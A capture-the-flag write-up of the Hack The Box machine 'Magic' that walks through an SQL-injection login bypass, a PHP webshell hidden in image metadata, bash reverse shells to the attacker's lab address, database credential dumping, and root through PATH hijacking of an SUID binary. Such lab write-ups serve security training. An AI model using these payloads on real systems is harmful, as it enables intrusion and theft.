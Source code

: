# [Magic](https://app.hackthebox.com/machines/magic)

```bash
nmap -p- --min-rate 10000  10.10.10.185 
```

![Alt text](img/image.png)

After knowing open ports, let's do nmap scan for these ports.

```bash
nmap -p22,80 -sV -sC -A 10.10.10.185
```

![Alt text](img/image-1.png)


While browsing HTTP of this machine, we can see '/login.php'.

Let's try to do SQLI to bypass authentication.

Yes it worked SQLI to bypass login. I enter values like that,

username: ' or 1=1-- -
password: test


![Alt text](img/image-2.png)


I see that images of web application is served on '/images' directory.It means , if we upload malicious file, we can browse on this directory.


I do File Upload bypass with below tricks.

1. Change filename from '.png' into '.php.png'
2. Add below webshell into middle of png file.
```bash
<?php system($_GET[cmd]); ?>
```
3. Content-Type should be 'image/png'.

We use exiftool to comment our reverse shell script into image.
```bash
exiftool -DocumentName='<h1>Dr4ks<br><?php system($_GET[cmd]); ?></h1>' images.jpeg
```

![Alt text](img/image-3.png)

We upload 'images.php.jpeg' file.


While we browsing this file and enter OS commands into URL, our attack executes.

![Alt text](img/image-4.png)



Now, it's time for reverse shell and URL should be like this.

```bash
http://10.10.10.185/images/uploads/images.php.jpeg?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.6/1337 0>%261'
```

![Alt text](img/image-5.png)

We got reverse shell.

![Alt text](img/image-6.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-7.png)


While enumerating machine, I find hard-coded credentials on '/var/www/Magic' directory and file called 'db.php5'

![Alt text](img/image-8.png)


We find below credentials for database.


theseus: iamkingtheseus


We cannot connect directly to database via above credentials, I find 'mysqldump' which used to dump database.

```bash
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
```

![Alt text](img/image-9.png)

Here, we find another password: Th3s3usW4sK1ng

That's password of 'theseus' user.

user.txt

![Alt text](img/image-10.png)


For privilege escalation vector, I find '/bin/sysinfo' file with SUID binary.

I `ltrace` a `sysinfo` binary and see that 'fdisk' binary is used, that's why we need to add reverse shell into 'fdisk' binary.
![Alt text](img/image-13.png) 


We can be root by doing below steps, we do this by abusing **'$PATH' variable**.

```bash
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.6/1338 0>&1' > fdisk

chmod +x fdisk 

export PATH="/dev/shm:$PATH"

sysinfo  
```

![Alt text](img/image-11.png)


root.txt

![Alt text](img/image-12.png)